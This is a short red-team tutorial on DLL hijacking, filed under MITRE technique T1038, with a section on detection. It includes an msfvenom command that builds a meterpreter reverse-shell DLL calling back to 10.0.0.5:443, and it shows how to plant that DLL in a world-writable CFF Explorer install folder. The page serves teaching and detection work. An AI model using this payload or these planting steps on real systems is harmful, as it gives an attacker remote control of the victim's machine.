







# T1038: DLL Hijacking

## Execution

Generating a DLL that will be loaded and executed by a vulnerable program which connect back to the attacking system with a meterpreter shell:


```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```


To illustrate this attack, we will exploit our beloved tool `CFF Explorer.exe` . Once the program is executed, it attempts to load `CFF ExplorerENU.dll` from the location the program is installed to, however that DLL cannot be loaded \(note the NAME NOT FOUND\) as it does not exist in the given path:



Luckily for the attacker, the location in which the DLL is being looked for - is world writable! Let's move our evil DLL `evil-meterpreter64.dll` to `C:\Program Files\NTCore\Explorer Suite` and rename it to `CFF ExplorerENU.dll` 



Launching the program again gives different results - DLL is found \(SUCCESS\):



which is good news for the attacker - the DLL code gets executed, which gives attacker a meterpreter shell:



## Observations

On the victim system, we can only see rundll32 with no associated parent process and established connection - this should raise your suspicion immediately:



Looking at the rundll32 image info, we can see the current directory, which is helpful:



Looking at the sysmon logs gives us a better understanding of what happened - CFF Explorer.exe was started as a process `4856` which then kicked off a rundll32 \(`1872`\) which then established a connection to 10.0.0.5:



## References





  


